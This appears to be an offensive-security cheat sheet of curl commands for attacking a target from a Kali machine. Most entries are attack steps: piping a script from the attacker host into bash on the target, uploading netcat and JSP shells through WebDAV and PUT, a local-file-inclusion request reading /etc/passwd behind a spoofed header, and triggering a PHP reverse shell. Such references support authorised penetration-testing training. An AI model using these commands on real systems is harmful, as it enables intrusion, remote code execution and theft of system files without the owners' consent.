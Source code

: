 #### Download and execute
```bash - target
curl http://$KALI/shelly.sh | bash
```

#### Save to file
```bash - target
curl http://$KALI/shelly.sh -o shelly.sh
```

#### Headers
```bash - kali
curl -I http://$TARGET/filemanager/
```

#### Upload file
```bash - kali
curl --user 'user:password' -T nc64.exe http://$TARGET/webdav/nc64.exe
```

```bash - kali
curl -X PUT http://$TARGET:PORT/shelly.jsp -d 2- < shelly.jsp
```
  
#### LFI example with custom header
```bash - kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

#### html2text
```bash - kali
curl http://$TARGET:8080/ | html2text
```

#### Credentials
```bash - kali
curl --user $USER:$PASSWORD $TARGET
```

#### Webdav trigger webshell
```bash - kali
curl http://$TARGET/webdav/php-reverse-shell.php -u $USER:$PASSWORD
```
#### Edit Method
```bash - kali
curl -siX POST -H 'Content-Length: 0' http://$TARGET:80/running-proccesses
```